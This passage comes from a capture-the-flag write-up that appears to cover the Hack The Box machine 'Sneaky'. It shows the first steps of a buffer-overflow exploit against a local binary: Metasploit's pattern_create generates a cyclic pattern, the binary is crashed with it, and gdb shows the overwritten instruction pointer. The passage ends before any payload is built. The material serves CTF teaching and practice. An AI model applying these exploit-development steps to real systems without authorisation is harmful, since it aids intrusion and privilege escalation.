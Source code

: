 So it's somewhere between one char and a whole load of chars. Use the MSF pattern_create.rb to get us a unique pattern:

```text
root@kali:~/htb/sneaky# locate pattern_create
/usr/bin/msf-pattern_create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
root@kali:~/htb/sneaky# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Copy this pattern to box and check it is enough to cause a seg fault:

```text
thrasivoulos@Sneaky:~$ /usr/local/bin/chal Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
Segmentation fault (core dumped)
```

Works, so can now use gdb:

```text
hrasivoulos@Sneaky:~$ gdb /usr/local/bin/chal
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/local/bin/chal...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
Starting program: /usr/local/bin/chal Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

Program received signal SIGSEGV, Segmentation fault.
0x316d4130 in ?? ()
(gdb)
```
